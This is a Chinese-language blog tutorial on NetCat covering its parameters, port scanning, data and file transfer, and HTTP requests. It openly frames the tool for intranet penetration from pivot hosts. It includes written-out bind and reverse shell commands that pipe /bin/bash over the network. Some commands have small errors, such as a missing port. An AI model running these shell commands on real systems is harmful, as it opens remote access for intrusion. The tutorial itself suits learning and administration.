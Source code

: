 ```yaml
---
title: 瑞士军刀---NetCat使用手册
toc: true
date: 2023-07-21 
updated: 2023-07-21 
categories: Tech Blog
---
```


## NetCat简介

NetCat(nc)是一款强大的命令行网络工具，以体积小功能灵活而著称，被安全界与运维誉为瑞士军刀。最初由一位叫做"霍比特人"的网友Hobbit于 1995 年在 UNIX 上以源代码的形式发布,现在有GNU版和OpenBSD两个版本，其中只有后者在还在维护。两者在功能上有一些差别，例如OpenBSD版没有通过-e参数远端执行的功能。同时NetCat也有一些改进版本，例如集成进了Nmap的Ncat(21世纪的瑞士军刀)。NetCat的不足之处在于他是明文传输且缺乏身份验证功能，而Ncat可以通过--allow指定允许连接的机器，通过--ssl参数进行数据的加密。而无论是Ncat还是NetCat，他们的基本功能都有

- telnet / 获取系统 banner 信息
- 传输文本信息
- 传输文件和目录
- 加密传输文件
- 端口扫描
- 远程控制 / 正向 shell
- 流媒体服务器
- 远程克隆硬盘
其在各大发行版中均默认安装，且功能齐全而强大，在内网渗透中有重要的作用
<!--more-->

## NetCat使用说明

### 常用参数

- -l ：开启监听
- -p ：指定端口
- -t ：以telnet形式应答
- -e ：程序重定向
- -n ：以数字形式表示ip
- -v ：显示执行命令过程
- -z  不进行交互，直接显示结果
- -u ：使用UDP协议传输
- -w  设置超时时间

可以使用-h获取更全面的参数列表与说明如下

命令|释义
----|-----
-G |设置路由器跃程通信网关，最多设置8个；
-h|在线帮助；
-i|延迟秒数：设置时间间隔，以便传送信息及扫描通信端口；
-l|使用监听模式，监控传入的资料；
-n|直接使用ip地址，而不通过域名服务器；
-o|输出文件：指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存；
-p|通信端口：设置本地主机使用的通信端口；
-r|指定源端口和目的端口都进行随机的选择；
-s|来源位址：设置本地主机送出数据包的IP地址；
-u|使用UDP传输协议；
-v|显示指令执行过程；
-w|超时秒数：设置等待连线的时间；
-z|使用0输入/输出模式，只在扫描通信端口时使用

## NetCat常见用法

### 端口测试

公网上的端口扫描往往使用Nmap，但是内网渗透时跳板主机上未必有Nmap这样的工具。这时NetCat体积小不易被发现方便传输的特性使得它成为了不二之选。我们在使用nc时常常跟上**v**和**n**两个参数，前者会列出执行过程的详细信息，后者可以只使用ip地址避免dns解析从而节省时间提高效率。初次以外,NetCat可以使用z参数使用非交互式的方式运行，即不进行io交互直接执行命令
在进行端口扫描时，我们常使用 **nc -nvz [ip] [port]** 命令，port可以写成一个范围，例如

```bash
nc -nvz 182.168.1.77 1-100 # 意为ping目标ip的1-100号端口

nc -v -v -w3 -z 192.168.1.77 8080-8083 # 两次-v使得报告更详细，扫描超时时间为3秒
```

z参数默认使用tcp类型，可以加上新参数u使用udp扫描

### 信息传输

在跳板(ip为192.168.1.77)上使用

```bash
nc -l -p 8080 #监听8080端口 TCP协议
nc -u -l -p 8080 #监听8080端口 UDP协议
```

然后在我们的主机上

```bash
nc 192.168.1.77 8080 #使用TCP协议连接
nc -u 192.168.1.77 8080 #使用UDP协议连接
```

这样我们就可以在两台主机间实现会话了。这也是运维测试安全组策略或者iptable策略时常使用的方法。当然我们的目的不仅限于此。在电子取证的时候，为了不破坏现场而又需要提取出大量信息和文件分析时，可以将NetCat与管道配合使用，将一端的输出结果输出到另一端
Server(192.168.1.77)

```bash
nc -l -p 7777
```

Client(以ls -l为例)

```bash
ls -l | nc -nv 192.168.1.77
```

当然Sever端也可以讲内容定向输出到文件中如

```bash
nc -l -p 7777 > ls.txt
```

Client(以ls -l为例)

```bash
ls -l | nc -nv 192.168.1.77
```

### 文件传输

在进行上一种使用方法时，不难发现我们可以配合重定向实现文件传输的效果.例如
Server(192.168.1.77)

```bash
    nc -l -p 8080 > image.jpg
```

Client

```bash
    nc 192.168.1.77 8080 < image.jpg
```

你当然也可以把一整个目录压缩打包的方式传输目录。在传输时，也可以配合pv命令准确地测量带宽吞吐量地大小

### 远程控制

NetCat同样还能实现正反向Shell的效果，即把信息传输与文件传输改为传输shell即可
正向Shell
Server(192.168.1.77 )

```bash
nc -l -p 8080 -e /bin/bash
```

Client

```bash
nc 192.168.1.77 8080
```

反向Shell
Client

```bash
nc -nv 192.168.1.77  8080 -e /bin/bash
```

Server(192.168.1.77 )

```bash
nc -l -p 8080
```

如果使用的时OpenBSD版本的Netcat,即在没有-e命令的情况下，我们可以与管道或重定向配合实现同样的效果

```bash
nc -l -p 8080 | /bin/bash
nc 192.168.1.77 8080 | /bin/bash
```

## 模拟应用层协议

例如我们希望使用NetCat发送HTTP请求，我们可以配合管道以非交互式的方式发送hTTP请求

```bash
echo -e "GET /anything HTTP/1.0\r\nHost httpbin.org\r\n\r\n" | nc httpbin.org 80
```

或者使用标准输入以交互式的方式发送HTTP请求，以一个简单的Get请求为例

```bash
    nc httpbin.org 80
    GET /ip HTTP/1.0
    (回车)
    (回车)
```

## P

NetCat正是这么一款通过命令行直接操作tcp/udp进行监听、连接与数据传输的工具。NetCat的能力并不止于此，我们大可自己实现一款NetCat,并尝试加入一些流量混淆，加密解密以及权限控制的额外功能。还可以实现一个NetCat的[Demo](https//github.com/RuijieWu/Python-Hacker-Program/tree/main/Netcat%20Demo)。NetCat能干的事情还有很多，例如配合播放器实现流媒体功能，配合一些脚本之类的程序实现一个服务器例如http服务器或者代理服务器等等。每一位富有Geek精神的人都是NetCat绝活哥，我会将自己想到的有意思的NetCat用法或者扩展不断地更新到这篇博客中
